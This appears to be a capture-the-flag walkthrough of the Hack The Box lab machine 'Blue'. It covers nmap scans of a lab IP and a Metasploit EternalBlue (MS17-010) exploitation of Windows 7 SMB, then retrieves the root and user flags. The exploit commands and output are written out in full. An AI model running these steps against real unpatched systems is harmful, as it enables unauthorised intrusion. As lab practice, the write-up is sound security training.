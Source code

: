 # Blue

## Ping Box 

ping 10.129.129.56

## Make a new directory

mkdir -p htb/Blue/nmap

## Reconnaissance

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

    sudo nmap -sC -sV -O --reason -oA htb/Blue/nmap/initial 10.129.129.56

| **Flag** | **Description** |
| --------------|-------------------|
| `-sC` | Run default nmap scripts |
| `-sV` | Detect service version |
| `-O` | Detect OS |
| `--reason` | Determine the port and host state |
| `-oA` | Output all formats and store in file nmap/initial |

We get back the following results:

| **Port** | **Description** |
| --------------|-------------------|
| `135` | msrpc / Microsoft Windows RPC |
| `139` | netbios-ssn / Microsoft Windows netbios-ssn |
| `445` | microsoft-ds / Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP) |

## Background Scan

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

    sudo nmap -sC -sV -O -p- --reason -oA htb/Blue/nmap/full 10.129.129.56

| **Flag** | **Description** |
| --------------|-------------------|
| `-sC` | Run default nmap scripts |
| `-sV` | Detect service version |
| `-O` | Detect OS |
| `-p-` |All Ports |
| `--reason` | Determine the port and host state |
| `-oA` | Output all formats and store in file nmap/initial |

We get back the following results:

| **Port** | **Description** |
| --------------|-------------------|
| `135` | msrpc / Microsoft Windows RPC |
| `139` | netbios-ssn / Microsoft Windows netbios-ssn |
| `445` | microsoft-ds / Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP) |

## Blue

A well known and popular exploit, External Blue, uses the ports and services/versions we found during our namp scan. 

    └──╼ [★]$ sudo nmap -sC -sV -O -p- --reason -oA htb/Blue/nmap/full 10.129.129.56[sudo] password for htb-mbwest: 
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-20 03:22 BST
    Nmap scan report for 10.129.129.56
    Host is up, received echo-reply ttl 127 (0.080s latency).
    Not shown: 65526 closed tcp ports (reset)
    PORT      STATE SERVICE      REASON          VERSION
    135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
    139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)

    Network Distance: 2 hops
    Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb2-security-mode: 
    |   2.1: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2022-04-20T02:25:08
    |_  start_date: 2022-04-20T02:18:46
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb-os-discovery: 
    |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
    |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
    |   Computer name: haris-PC
    |   NetBIOS computer name: HARIS-PC\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2022-04-20T03:25:09+01:00
    |_clock-skew: mean: -19m55s, deviation: 34m36s, median: 2s


## Metasploit

`msfconsole`

Using the MSF search function, `search eternalblue`, we come across a few matches. 

![image](https://user-images.githubusercontent.com/87195021/164135103-f927db0d-16de-4353-9983-67ef38fc90b0.png)


We will use the `0` option, `exploit/windows/smb/ms17_010_eternalblue`. 

We will adjust the following options `lhost` and `rhosts` using the following commands; 
`set lhost tun0`
`set rhosts 10.129.129.56`

Run the exploit by typing, `exploit`

It took 3 attempts, but the exploit completed sucessfully. 

    [+] 10.129.129.56:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.129.129.56:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.129.129.56:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

![image](https://user-images.githubusercontent.com/87195021/164135898-0163de85-32d1-4d1a-a300-99a1c60fc922.png)

## Find Root Flag

A common place to check first is the Administrator's desktop....and we found the `root.txt`

![image](https://user-images.githubusercontent.com/87195021/164136102-4a922dab-f9c9-4b70-a4c2-c45ea2df9c41.png)

![image](https://user-images.githubusercontent.com/87195021/164136244-1253d1f0-14bb-47ce-9b41-ca6c4ce0619b.png)

## Find User Flag

Looking through the only other user, `haris`, we find the user.txt on his desktop. 

![image](https://user-images.githubusercontent.com/87195021/164140394-d5d0a1f9-7ca3-46b3-bc25-02b1a86da699.png)

## Box Pwned

![image](https://user-images.githubusercontent.com/87195021/164140648-31d50732-07c0-4f9b-8fe6-e26895f1d101.png)